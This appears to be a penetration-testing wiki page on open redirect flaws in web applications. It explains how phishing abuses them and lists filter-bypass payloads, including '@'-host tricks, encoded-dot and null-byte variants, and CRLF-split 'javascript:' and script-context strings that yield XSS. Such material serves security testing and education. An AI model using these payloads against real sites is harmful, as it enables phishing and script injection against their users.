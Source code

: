 # Open Redirect

### Overview

A website is vulnerable to Open Redirect when parameter values (the portion of URL after "?") in an HTTP GET request allow for information that will redirect a user to a new website&#x20;without proper validation of the target of the redirect. Depending on the architecture of a vulnerable website, redirection could happen after a certain action, such as login, and&#x20;sometimes it could happen instantaneously upon loading of a page.

An example of a vulnerable website link could look something like this: `https://www.example.com/login.html?RelayState=http%3A%2F%2Fexample.com%2Fnext`

Makes it really easy to get **phishing **done - just redirect to your own site and ask for a login.

### Exploiting Semi-Hardcoded Paths

If the redirection is done like this:

```
Window.location.href = hardcoded_part + malicious_part
```

Then you might still be able to redirect to your own site using the `@` sign (might not work, depending on the hardcoded part)

Tests:

* `http://example.com@test.com`&#x20;
  * Works for chrome
  * Works on Firefox but gives phishing warning
* `http://example.com/page@test.com`
  * Doesn't work
*   `page@test.com`&#x20;

    * Doesn’t work



### Filter Bypassing

Here are some things to try to bypass filters and still be able to get open redirect to work:

* `java%0d%0ascript%0d%0a:alert(0)`
  * CRLF injection to bypass `javascript:` being blacklisted
  * Results in **XSS**
* `//google.com`
  * In case http:// is blacklisted
* `https:google.com`
  * Browsers accept this, good if `//` is blacklisted
* `//google%E3%80%82com`
  * `%E3%80%82` is `。` encoded.&#x20;
* `\/\/google.com/`
  * Useful for bypassing // http:// blacklists. Browsers see \\/\\/ as //)
* `/\/google.com/`
  * Same as above
* `//google%00.com`
  * Attempt to use a null byte to bypass a blacklist filter.
* `http://www.theirsite.com@yoursite.com/`
  * Browsers will redirect to anything after @
* `http://www.yoursite.com/http://www.theirsite.com/`
  * If `@` is blacklisted and they check if their domain is in the param, then make a folder on your site with the name of their domain
* `";alert(0);//`
  * If the url is echoed in a variable and we want to get xss in script tag



